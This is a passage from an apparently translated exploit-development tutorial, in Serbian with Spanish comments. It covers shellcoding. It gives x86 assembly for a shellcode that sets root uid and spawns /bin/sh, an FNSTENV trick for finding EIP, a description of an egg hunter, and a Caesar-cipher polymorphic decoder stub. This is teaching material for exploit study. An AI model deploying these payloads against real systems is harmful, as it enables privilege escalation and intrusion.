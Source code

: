 
**EKSPLOATISANJE korišćenjem Stack-a (/bin/sh):**

```
section .text
global _start
_start:
xor                  eax, eax                     ;Limpieza
mov                al, 0x46                      ; Syscall 70
xor                  ebx, ebx                     ; arg1 = 0
xor                  ecx, ecx                     ; arg2 = 0
int                    0x80                           ; setreuid(0,0)
xor                  eax, eax                     ; eax = 0
push   eax                             ; “\0”
push               dword 0x68732f2f ; “//sh”
push               dword 0x6e69622f; “/bin”
mov                ebx, esp                     ; arg1 = “/bin//sh\0”
push               eax                             ; Null -> args[1]
push               ebx                             ; “/bin/sh\0” -> args[0]
mov                ecx, esp                     ; arg2 = args[]
mov                al, 0x0b                      ; Syscall 11
int                    0x80                           ; excve(“/bin/sh”, args[“/bin/sh”, “NULL”], NULL)
```

**EJ FNSTENV:**

```
fabs
fnstenv [esp-0x0c]
pop eax                     ; Guarda el EIP en el que se ejecutó fabs
…
```

**Lovac na jaja:**

Ovo je mali kod koji prolazi kroz stranice memorije povezane s procesom u potrazi za shellcode-om koji je tamo spremljen (traži neki potpis koji je postavljen u shellcode-u). Korisno u slučajevima kada imate samo malo prostora za ubacivanje koda.

**Polimorfni shellkodovi**

To su šifrovani shellkodovi koji imaju male kodove koji ih dešifruju i skoče na njih, koristeći trik Call-Pop, ovde je **primer Cezarove šifre**:

```
global _start
_start:
jmp short magic
init:
pop     esi
xor      ecx, ecx
mov    cl,0                              ; Hay que sustituir el 0 por la longitud del shellcode (es lo que recorrerá)
desc:
sub     byte[esi + ecx -1], 0 ; Hay que sustituir el 0 por la cantidad de bytes a restar (cifrado cesar)
sub     cl, 1
jnz       desc
jmp     short sc
magic:
call init
sc:
;Aquí va el shellcode
```
